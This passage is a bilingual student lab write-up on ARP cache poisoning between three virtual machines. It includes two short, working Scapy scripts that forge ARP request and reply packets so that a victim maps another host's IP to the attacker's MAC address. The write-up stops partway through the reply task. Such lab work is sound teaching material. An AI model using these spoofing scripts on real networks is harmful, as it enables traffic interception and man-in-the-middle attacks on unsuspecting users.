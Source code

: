 In this task, we have three VMs, A, B, and M. We would like to attack A’s ARP cache, such that the following results is achieved in A’s ARP cache.

在该实验中，我们将需要3台VM，即A,B和M。我们想要攻击A的ARP缓存，以便在A的ARP缓存中实现以下结果。

`B’s IP address --> M’s MAC address`

There are many ways to conduct（举办，进行） ARP cache poisoning attack. Students need to try the following three methods, and report whether each method works or not.

进行ARP缓存中毒攻击的方法有很多。学生需要尝试以下三种方式，并且记录每种方式是否可行。（注：我先做的任务B，后再做的任务A，C。）

- **Task 1A (using ARP request).** On host M, construct an ARP request packet and send to host A. Check whether M’s MAC address is mapped to B’s IP address in A’s ARP cache.

  **任务1A（使用ARP请求）**在主机M，构建一个ARP请求包并发送给主机A。检测是否在A的ARP缓存表中有B的IP地址映射了M的MAC地址。

  > 1. 在zhangshuaiyang2/ARP-Cache-Poisoning文件夹下，创建了文件task1B.py
  > 2.  文件task1B.py 中的python代码如下
  >
  > ```python
  > #!/usr/bin/python
  > from scapy.all import *
  > 
  > #spoof A,so we need A'mac
  > E = Ether(dst="08:00:27:04:d9:58")
  > #src is B,dst is A,but now i'm in M
  > #op中的1表示who-has，2表示is-at
  > A = ARP(op = 1,psrc="10.0.2.5",pdst="10.0.2.15")
  > 
  > pkt = E/A
  > sendp(pkt)
  > ```
  >
  > 3. 在主机A中查看ARP缓存表，第一条命令是没有执行文件显现出来的情况。第二条命令是执行命令后显示出来的情况，可以看到，在A的arp表中已经存在了主机B的ip对应于主机M的mac地址
  >
  >    {% asset_img 5.jpg This is an test image %}
  >
  > 4. 在执行文件前，我们就使用wireshark开启了抓包。在wireshark中也可以看到结果。A收到了主机M发出的arp广播请求，并且还给主机M一个回应
  >
  >    {% asset_img 6.jpg This is an test image %}

  <br>

- **Task 1B (using ARP reply).** On host M, construct an ARP reply packet and send to host A. Check whether M’s MAC address is mapped to B’s IP address in A’s ARP cache.

  **任务1B（使用ARP回应）**在主机M，构建一个ARP回应包并发送到主机A。检测是否在A的ARP缓存表中有B的IP地址映射了M的MAC地址。

  > 1. 我在主机M（即linux2）上，创建了zhangshuaiyang2文件夹，然后再在该文件夹下创建了ARP-Cache-Poisoning文件夹。在ARP-Cache-Poisoning文件夹下，创建了文件task1A.py 
  >
  > 2. 文件task1A.py 中的python代码如下
  >
  > ```python
  > #!/usr/bin/python
  > from scapy.all import *
  > 
  > #spoof A,so we need A'mac
  > E = Ether(dst="08:00:27:04:d9:58")
  > #src is B,dst is A,but now i'm in M
  > A = ARP(op = "is-at",psrc="10.0.2.5",pdst="10.0.2.15")
  > 
  > pkt = E/A
  > sendp(pkt)
  > ```
  >
  > 3. 接下来，我在主机A（即linux1）上，清除了arp缓存表`sudo ip neigh flush dev enp0s3`